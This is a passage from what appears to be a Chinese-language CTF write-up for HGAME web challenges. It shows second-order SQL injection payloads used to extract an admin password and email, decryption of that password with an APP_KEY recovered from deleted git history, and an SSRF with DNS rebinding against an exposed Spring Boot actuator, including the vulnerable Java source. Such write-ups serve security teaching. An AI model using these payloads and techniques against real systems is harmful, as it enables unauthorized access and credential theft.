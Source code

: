 注册名称为 `123' union select password from users where id =1#`,  
就可以拿到管理员的加密过的密码  

![](https://i.loli.net/2019/03/21/5c93a611b6a32.png)  
![](https://i.loli.net/2019/03/21/5c93a63b613bd.png)  

同理  `123' union select email from users where id =1#`  
拿到 email `admin@hgame.com`  

config/app.php 可以找到加密方式 `'cipher' => 'AES-256-CBC'`,  
秘钥来自环境变量 `env('APP_KEY')`,  
查找 git 的记录, 发现被删掉的 `.env`  
`APP_KEY=base64:9JiyApvLIBndWT69FUBJ8EQz6xXl5vBs7ofRDm9rogQ=`,  
用这个来解密就可以了

```
php > echo openssl_decrypt("EaR\/4fldOGP1G\/aDK8e8u1Aldmxl+yB3s+kBAaoPods=",'AES-256-CBC',base64_decode('9JiyApvLIBndWT69FUBJ8EQz6xXl5vBs7ofRDm9rogQ='),0,base64_decode('rnVrqfCvfJgnvSTi9z7KLw=='));
s:16:"9pqfPIer0Ir9UUfR";
```

登录后就是 flag~


## happyJava

这题有点坑 233, 提示放出来才做出来.  
提示: `spring-boot-actuator`  
查了一下, fuzz /monitor /actuator 等等都没有,  
随缘扫了一下端口找到 `9876` 端口开着 http, 竟然正是这个 spring-boot-actuator  
访问 `http://119.28.26.122:9876/mappings` 就可以拿到所有的路由  

![](https://i.loli.net/2019/03/21/5c93a6119f52e.png)

题目是这两个 `/you_will_never_find_this_interface`, `/secret_flag_here`,  
看了一下是 SSRF, 试了一会发现 DNS 请求会请求两次, 可以采用 DNS Rebinding,  
因为后面可以拿 Shell 下题目, 我就直接给大家看题目源码了  

```java
@GetMapping(path={"/you_will_never_find_this_interface"})
public String YouWillNeverFindThisInterface(@RequestParam(value="url", defaultValue="") String url)
{
    if (url.isEmpty()) {
        return "`url` cant be empty!";
    }
try
{
    URL u = new URL(url);
    
    String domain = u.getHost();
    String ip = InetAddress.getByName(domain).getHostAddress();
    if (ip.equals("127.0.0.1")) {
        return "Dont be evil. Dont request 127.0.0.1.";
    }
    URLConnection connection = u.openConnection();
    connection.setConnectTimeout(5000);
    connection.setReadTimeout(5000);
    BufferedReader in = new BufferedReader(new InputStreamReader(connection.getInputStream()));
    StringBuilder sb = new StringBuilder();
    String current;
    while ((current = in.readLine()) != null) {
        sb.append(current);
    }
    return sb.toString();
}
    catch (Exception e)
```